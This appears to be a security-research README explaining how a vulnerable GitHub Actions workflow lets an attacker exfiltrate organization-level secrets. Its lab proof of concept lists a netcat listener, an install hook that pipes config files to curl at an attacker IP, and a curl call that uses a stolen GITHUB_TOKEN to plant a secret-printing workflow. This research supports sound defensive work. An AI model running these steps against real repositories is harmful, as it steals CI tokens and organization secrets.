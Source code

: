 # Exfiltration of organization level secrets

It is possible to exfiltrate [organization level secrets](https://docs.github.com/en/actions/security-guides/encrypted-secrets#creating-encrypted-secrets-for-an-organization) even if they are not referenced in the vulnerable repository. However, the access to the secrets should be granted to either all organization repositories (which is the default) or a selected set of repositories including the vulnerable repository.

One way to exfiltrate organization level secrets is to exfiltrate the `GITHUB_TOKEN` and create a new workflow which would reference and print the secrets. This workflow can be created in any branch of the repository. Finally, to actually exfiltrate the secrets one triggers the workflow.

Only organization admins can view the list of organization level secrets. However, the attacker doesn't need to view the list. They can exfiltrate all secrets accessible to the workflow, including organization level secrets, at once by leveraging the [`secrets` context](https://docs.github.com/en/actions/learn-github-actions/contexts#secrets-context) as proposed by Alex Ilgayev in the "Extracting Repository And Organizational Secrets" of [How We Discovered Vulnerabilities in CI/CD Pipelines of Popular Open-Source Projects](https://cycode.com/blog/github-actions-vulnerabilities/).

## Example

### Environment setup

Run [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) as the victim to create the `MYSECRET` organization level secret with the value of `1234567890` and the `org-level-secrets` repository with the vulnerable workflow.

> You will need [gh](https://github.com/cli/cli) installed to execute the [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) script

### Proof of concept

Perform the following steps as the attacker.

1. Open a publicly accessible port on a remote server (e.g. `nc -vlnk 0.0.0.0 1337`).
1. Fork the `org-level-secrets` repository.
1. Add the `scripts.install` key to the `package.json` file with the `find . -type f -name config | xargs cat | curl --data @- http://{IP}:1337` value replacing the `{IP}` placeholder with the public IP address of the remote server.
1. Open a pull request from the fork to the `org-level-secrets` repository.
1. Wait until the remote server recieves the request and base64-decode the `GITHUB_TOKEN` from it.
1. Run the following command replacing `{GITHUB_TOKEN}` and `{owner}` placeholders with the obtained `GITHUB_TOKEN` and the organization name respectively to create a new workflow.
    ```bash
    curl -X PUT -H "Accept: application/vnd.github.v3+json" -H "Authorization: Bearer {GITHUB_TOKEN}" https://api.github.com/repos/{owner}/org-level-secrets/contents/.github/workflows/exfiltrate.yml -d '{"message":"hey","content":"b246CiAgcHVsbF9yZXF1ZXN0X3RhcmdldDoKam9iczoKICBleGZpbHRyYXRlOgogICAgcnVucy1vbjogdWJ1bnR1LWxhdGVzdAogICAgc3RlcHM6CiAgICAgIC0gbmFtZTogZXhmaWx0cmF0ZQogICAgICAgIHJ1bjogfAogICAgICAgICAgZWNobyAiJHt7IHNlY3JldHMuTVlTRUNSRVQgfX0iIHwgYmFzZTY0IHwgYmFzZTY0"}'
    ```
1. Open another pull request from the to the `org-level-secrets` repository to trigger the workflow.
1. The double-base64-encoded `MYSECRET` secret should appear in workflow run logs.


